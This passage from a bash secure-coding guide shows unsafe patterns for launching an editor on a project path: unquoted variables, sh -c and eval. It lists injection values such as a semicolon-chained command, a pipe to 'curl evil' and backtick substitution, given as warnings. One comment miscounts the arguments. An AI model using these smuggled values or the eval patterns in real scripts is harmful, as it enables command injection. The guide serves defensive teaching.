 **Why unsafe**: `sh -c` creates a new shell that interprets `$()` command substitution.

---

### ❌ UNSAFE: Unquoted Variable

```bash
#!/usr/bin/env bash
PROJECT_DIR="/home/user/My Projects/nixos"

# Unquoted variable - WRONG
exec code $PROJECT_DIR

# Shell expands to: code /home/user/My Projects/nixos
# Sees 4 arguments: "code", "/home/user/My", "Projects/nixos"
```

**Why unsafe**: Word splitting on spaces. Path broken into multiple arguments.

---

## Special Characters That Break Unquoted Variables

```bash
# Space - word splitting
PROJECT_DIR="/path with spaces"
exec code $PROJECT_DIR  # ❌ Broken into multiple args

# Dollar - variable expansion
PROJECT_DIR="/path/$subdir"
exec code $PROJECT_DIR  # ❌ Expands $subdir

# Semicolon - command separator
PROJECT_DIR="/tmp; malicious"
eval "code $PROJECT_DIR"  # ❌ Runs two commands

# Pipe - command chaining
PROJECT_DIR="/tmp | curl evil"
eval "code $PROJECT_DIR"  # ❌ Pipes output to curl

# Backtick - command substitution
PROJECT_DIR="/tmp/\`malicious\`"
eval "code $PROJECT_DIR"  # ❌ Executes malicious

# Glob - filename expansion
PROJECT_DIR="/tmp/*.txt"
exec code $PROJECT_DIR  # ❌ Expands to all .txt files
```

---

## Validation Patterns
